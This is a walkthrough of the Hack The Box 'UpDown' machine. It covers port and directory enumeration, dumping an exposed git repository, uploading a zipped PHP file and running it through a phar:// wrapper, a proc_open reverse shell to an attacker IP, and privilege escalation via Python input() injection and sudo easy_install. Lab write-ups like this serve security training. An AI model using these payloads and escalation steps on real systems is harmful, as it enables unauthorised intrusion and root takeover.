 ```yaml
---
date: 2025-03-02
categories: [Linux, Medium]
---
```


![UpDown](https://labs.hackthebox.com/storage/avatars/d7a56d5f25100d0a918b90de80122f82.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [AB2](https://app.hackthebox.com/users/1303)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Linux   |

---






- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.177 -oG scan
	/opt/extractports scan
	nmap -p22,80 -sCV -Pn 10.10.11.177 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/739d452b-735c-49eb-8156-025f4c80f7ba)

- When I enter the web page I find the domain `siteisup.htb` and add it to the `hosts` file.
- The website allows you to see if a page is active or not. The first thing that comes to my mind is to list hosts or ports not accessible from my machine but I can't find any.
- When listing subdomains I find `dev.siteisup.htb`
- I decide to list directories with several dictionaries and I find one called dev and inside it I find a git repository. 

	```python
	gobuster dir -u http://10.10.11.177/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
	gobuster dir -u http://siteisup.htb/dev/ -w /usr/share/wordlists/dirb/common.txt -t 50 --exclude-length  281
	```

	![image](https://github.com/user-attachments/assets/edbba28a-f766-4c31-9f5f-1cd87985822f)

- I decide to download all the content of the repository with git-dumper to bring it to me locally and analyze it.

	```python
	pip install git-dumper
	git-dumper http://10.10.101.177/dev/.git/ ./repo
	```

- Inside the repository files I find in the .htaccess some indications to be able to reach a new point. I also find inside the changelog.txt file a message that indicates that the uploading of files is allowed so far.

	![image](https://github.com/user-attachments/assets/8dfb486e-57fa-4358-bac6-29675d9fe474)

- By following the instructions I get to a panel that allows me to upload files but after a while they are deleted.
- I try to automate the upload of a file and its reading by means of 2 scripts but after some time I analyze it and I see that I have no possibility to access the system through this

	- Read file
	```python
	#!/usr/bin/python
	import os
	import sys
	import signal
	import time
	import hashlib
	import string
	from pwn import *
	import requests
	
	def def_handler(sig, frame):
	        print("\n\n[!]Saliendo....\n")
	        sys.exit(1)
	
	signal.signal(signal.SIGINT, def_handler)
	
	fileName="targetlist"
	
	def simple_get(name):
	
	        value = int(time.time())
	        md5_hash = hashlib.md5()
	        md5_hash.update(str(value).encode('utf-8'))
	        folder = md5_hash.hexdigest()
	        simple_url = "http://dev.siteisup.htb/index.php?page=./uploads/" + folder + "/" + name
	        #print(simple_url)
	        burp0_headers = {"Connection": "keep-alive", "Upgrade-Insecure-Requests": "1", "Special-Dev": "only4dev"}
	        response = requests.get(simple_url, headers=burp0_headers)
	        if (len(response.text) != 78):
	                print(response.text)
	
	def exploit():
	        simple_get(fileName)
	
	if __name__ == '__main__':
	        exploit()
	
	```
	
	- Upload file
	```python
	#!/usr/bin/python
	import os
	import sys
	import signal
	import time
	import hashlib
	import string
	from pwn import *
	import requests
	
	def def_handler(sig, frame):
	        print("\n\n[!]Saliendo....\n")
	        sys.exit(1)
	
	signal.signal(signal.SIGINT, def_handler)
	
	
	fileName="targetlist"
	def upload_file():
	        burp0_url = "http://dev.siteisup.htb/"
	        burp0_headers = {"Content-Type": "multipart/form-data; boundary=---------------------------36499159163642205144645867988", "Origin": "http://dev.siteisup.htb", "Connection": "keep-alive", "Referer": "http://dev.siteisup.htb/", "Upgrade-Insecure-Requests": "1", "Special-Dev": "only4dev"}
	        burp0_data = "-----------------------------36499159163642205144645867988\r\nContent-Disposition: form-data; name=\"file\"; filename=\"targetlist\"\r\nContent-Type: application/octet-stream\r\n\r\nhttp://10.10.11.177/dev\nhttp://10.10.11.177/\nhttp://10.10.11.177/dev/.git\n\r\n-----------------------------36499159163642205144645867988\r\nContent-Disposition: form-data; name=\"check\"\r\n\r\nCheck\r\n-----------------------------36499159163642205144645867988--\r\n"
	        requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
	
	def simple_get(name):
	
	        value = int(time.time())
	        md5_hash = hashlib.md5()
	        md5_hash.update(str(value).encode('utf-8'))
	        folder = md5_hash.hexdigest()
	
	
	        simple_url = "http://dev.siteisup.htb/index.php?page=./uploads/" + folder + "/" + name
	        #print(simple_url)
	        burp0_headers = {"Connection": "keep-alive", "Upgrade-Insecure-Requests": "1", "Special-Dev": "only4dev"}
	        response = requests.get(simple_url, headers=burp0_headers)
	        if (len(response.text) != 78):
	                print(response.text)
	
	def exploit():
	        #upload_file()
	        simple_get(fileName)
	
	if __name__ == '__main__':
	        exploit()
	
	```

- I choose to create a file with the php info. I zip this file and rename it to look like a txt file. I upload the file and when I consult it I apply a wrapper that allows to execute the .zip and .phar files as a php file

	```python
	echo "<?php phpinfo(); ?>" > info.php
	zip info.zip info.php
	mv info.zip info.txt
	
	GET /index.php?page=phar://uploads/53aa66f6ed5053a31bf29296762f46f1/info.txt/info
	```

- Within the disabled functions I can't find proc_open so I try to create a revershell using that function.

	![image](https://github.com/user-attachments/assets/bb671f6a-b489-47d4-b8fc-1f0b10d2310b)

	```python
	<?php
		$cmd = "bash -c 'bash -i >& /dev/tcp/10.10.14.24/4444 0>&1'";
		$descriptorspec = array(
			0 => array("pipe", "r"),
			1 => array("pipe", "w"),
			2 => array("pipe", "w")
		);
		$process = proc_open($cmd, $descriptorspec, $pipes);
		if (is_resource($process)){
			fclose($pipes[0]);
			fclose($pipes[1]);
			fclose($pipes[2]);
			proc_close(%process);
		}
	?>
	```

- I get a shell and search for files with the SUID permission set. I find a binary that is not common
	
	```python
	find / -perm -4000 2>/dev/null
	```
	
	![image](https://github.com/user-attachments/assets/87778889-11cf-475c-bd61-054eadd0aa44)

- Looking at the contents of the file I find the input function that is capable of executing commands.

	![image](https://github.com/user-attachments/assets/83ec174d-869d-4918-81c2-c46aa0768fcf)

- I run the finario and add code to launch a terminal as the user running the program, in this case developer. Thanks to this I become this user and I get to read the first flag.

	```python
	./siteisup
	__import__('os').system('/bin/bash')
	```

- I list the binaries that this user can run as root without providing a password and find one.

	![image](https://github.com/user-attachments/assets/091c906a-e771-4a88-b798-76656c1f4d3b)

- With the help of [gtfobins](https://gtfobins.github.io/gtfobins/easy_install/) I manage to exploit this binary, escalate my privileges and read the second flag.
	
	```python
	TF=$(mktemp -d)
	echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
	sudo /usr/local/bin/easy_install  $TF
	```
